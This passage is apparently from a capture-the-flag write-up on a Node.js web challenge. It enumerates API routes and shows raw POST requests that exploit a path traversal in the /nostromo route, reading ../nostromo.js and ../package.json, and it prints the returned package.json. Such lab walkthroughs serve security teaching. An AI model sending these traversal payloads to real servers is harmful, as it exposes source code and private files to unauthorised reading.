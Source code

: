 Aside from that, the frontend functionality is pretty limited. You can use the UP and DOWN arrows on your keyboard to navigate to different text panels. At this stage, the content does not reveal much, so we can save this for later.

Let's try to understand the API. The frontend does not reveal anything about where the routes exist, so you will need to test the route names with some [common API naming conventions](https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d). In this case, here are the locations:
- `http://IP_ADDRESS/yaml`
- `http://IP_ADDRESS/api/nostromo`
- `http://IP_ADDRESS/api/nostromo/mother`

Make sure you are using POST requests to access these. Otherwise, you will get a generic message about the "wrong route."

Earlier, we determined that `/nostromo` is the most exploitable route. First, try to exploit the Path Traversal vulnerability identified during static analysis. Let's try to fetch the contents of `../nostromo.js` because we know where this file lives: one directory above the *public/* folder: 

```
POST /nostromo HTTP/1.1
Host: http://IP_ADDRESS
Content-Type: application/json
...

{
  "file_path": "../nostromo.js"
}
```

The contents of this file, which we observed from the task file, is returned. We can infer two things here: that path traversal is achievable, and that file contents are returned as-is.

Next, let's also see if some common NodeJS artifacts exist. Try to return the `package.json`:

```
POST /nostromo HTTP/1.1
Host: http://IP_ADDRESS
Content-Type: application/json
...

{
  "file_path": "../package.json"
}
```

This returns the following:

```
{
  "name": "mother-secret",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "type": "module",
  "scripts": {
    "start": "node server.js",
    "dev": "nodemon server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "compression": "^1.7.4",
    "express": "^4.18.2",
    "js-yaml": "^4.1.0",
    "nodemon": "^2.0.22",
    "socket.io": "^4.7.0"
  }
}
```